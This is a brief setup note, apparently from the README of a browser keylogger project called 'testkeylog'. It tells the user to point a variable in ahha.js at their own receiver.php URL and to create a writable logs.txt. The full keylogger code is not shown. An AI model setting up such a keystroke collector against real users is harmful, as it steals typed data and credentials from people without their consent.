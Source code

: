 
1. edit ahha.js, change this line to your receiver.php 

mine:
```javascript
var $receiver = "http://localhost/playground/testkeylog/receiver.php";
```

yours:
```javascript
var $receiver = "http://yourhost/testkeylog/receiver.php";
```

create logs.txt in testkeylog folder and make sure it is writable, if necessary.
